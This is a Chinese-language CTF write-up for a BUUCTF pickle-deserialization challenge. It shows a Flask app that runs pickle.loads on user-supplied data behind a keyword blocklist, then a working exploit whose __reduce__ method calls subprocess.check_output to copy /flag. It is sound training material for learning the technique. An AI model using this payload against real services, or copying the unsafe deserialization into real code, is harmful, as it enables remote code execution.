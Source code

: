 ### Python Pickle 反序列化之 subprocess

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67ba18c2d0e0a243d4023da3.png)

提示了源码在 /src 目录，直接访问

![](https://pic1.imgdb.cn/item/67bac035d0e0a243d40275a5.png)

```python
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

- `/ppicklee` 路由只支持 `POST` 方法。
- 从表单中获取 `data` 字段，并进行 Base64 解码。
- 通过 `sys.modules` 禁用 `os` 和 `sys` 模块。
- 检查反序列化数据中是否包含黑名单中的关键字，如果包含则返回错误信息。
- 如果数据通过检查，则尝试反序列化数据，成功返回 `success pickle`，失败返回 `fail pickle`

因为题目告诉了我们 flag 在 /flag下，且其 src 路由会读取文件 app.py 内容并输出

因为禁用了 os 和 sys 模块，所以我们使用另一个模块 **subprocess** 执行系统命令

```python
import pickle
import base64
import subprocess

# __reduce__ 方法: 这是 pickle 模块中的一个特殊方法，用于定义对象在序列化时的行为，它返回一个元组，包含一个可调用对象（通常是函数）及其参数
# subprocess.check_output: 这是一个函数，用于执行系统命令并返回输出
class A():
    def __reduce__(self):
        return subprocess.check_output, (["cp", "/flag", "/app/app.py"],)


a = A()
b = pickle.dumps(a)

print(base64.b64encode(b))
```

![](https://pic1.imgdb.cn/item/67bb328ed0e0a243d402bf17.png)

访问 src 目录拿到 flag

![](https://pic1.imgdb.cn/item/67bb3283d0e0a243d402bf07.png)
